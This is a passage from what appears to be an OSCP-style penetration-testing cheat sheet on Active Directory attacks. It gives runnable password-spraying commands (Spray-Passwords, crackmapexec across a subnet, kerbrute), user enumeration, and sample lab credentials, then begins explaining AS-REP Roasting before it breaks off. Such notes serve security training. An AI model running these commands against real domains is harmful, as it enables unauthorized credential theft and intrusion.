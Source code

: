 4) Using _Spray-Passwords_ to extract credentials from a known password:

```bash
powershell -ep bypass
.\Spray-Passwords.ps1 -Pass $PASSWORD -Admin
```

2) SMB Attack via _crackmapexec_ starting from a known password:

```bash
crackmapexec smb $IP_TARGET -u user_list.txt -p '$PASSWORD' -d $DOMAIN_NAME

crackmapexec smb $IP_TARGET -u user_list.txt -p '$PASSWORD' -d $DOMAIN_NAME --continue-on-success

crackmapexec smb 192.168.224.0/24 -u pete -p 'Nexus123!' -d corp.com --continue-on-success
```

3) _Password spraying attack_ based on obtaining a TGT.

```bash
.\kerbrute_windows_amd64.exe passwordspray -d $DOMAIN_NAME .\user_list.txt "$PASSWORD"
```

Another useful tool could be [Kerbrute](https://github.com/0xsyr0/OSCP?tab=readme-ov-file#information-gathering):

```bash
# passwordspray
/home/kali/go/bin/kerbrute passwordspray -d oscp.exam users.txt hghgib6vHT3bVWf --dc 10.10.103.152 -vvv

# enumeration
kerbrute userenum --dc dc.domain.com -d domain.com /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

## AS-REP Roasting

The Kerberos authentication process is based on sending an AS-REQ and, after verification by the domain controller, receiving an AS-REP containing a session Key and a TGT. This step is called _Kerberos preauthentication_ and prevents offline password guessing.

Without this step, an attacker can send an AS-REQ request to the domain controller on behalf of any AD user. Once the AS-REP response is obtained from the domain controller, the attacker can perform an offline password attack by exploiting the decrypted part of the response. This attack is called _AS-REP Roasting_.

It is worth noting that by default, the _Do not require Kerberos preauthentication_ option is disabled for each user. If it is not, we can proceed with the attack.

There are two possibilities:
1) From kali
2) From windows machine

### From kali

Using _GetNPUsers_ to perform the attack and _hashcat_ to get the password:
